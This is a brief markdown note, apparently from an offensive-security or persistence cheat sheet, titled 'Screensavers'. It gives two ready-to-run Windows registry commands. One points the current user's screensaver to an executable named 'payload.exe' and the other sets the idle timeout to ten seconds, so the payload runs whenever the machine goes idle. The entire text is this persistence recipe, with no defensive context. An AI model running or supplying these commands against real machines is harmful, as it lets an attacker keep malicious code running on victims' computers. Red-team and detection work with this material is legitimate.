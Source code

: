 # Screensavers

Changing the default screensaver of the windows machines

```sh
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "c:\pers\payload.exe" /f
```

```sh
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "10" /f
```
